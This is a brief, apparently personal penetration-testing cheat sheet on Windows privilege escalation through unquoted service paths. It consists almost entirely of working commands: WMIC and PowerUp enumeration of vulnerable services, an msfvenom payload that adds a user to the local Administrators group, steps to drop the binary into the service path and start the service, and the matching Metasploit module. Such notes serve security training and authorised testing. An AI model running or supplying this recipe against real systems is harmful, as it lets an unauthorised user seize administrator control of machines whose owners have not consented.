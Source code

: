 [[icacls]]
https://toshellandback.com/2015/11/24/ms-priv-esc/

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

# Using PowerUp
Get-UnquotedService

# More info about the service
sc qc unquotedsvc
```

```sh
# Create Payload to add user in Administrator group
msfvenom -p windows/exec CMD='net localgroup administrators [username] /add' -f exe-service -o common.exe
```

```powershell
# Place the binary in the filepath
Start-Service BetaService
or
sc start BetaService      # In CMD
```


# Metasploit
```sh
msf > use exploit/windows/local/unquoted_service_path
```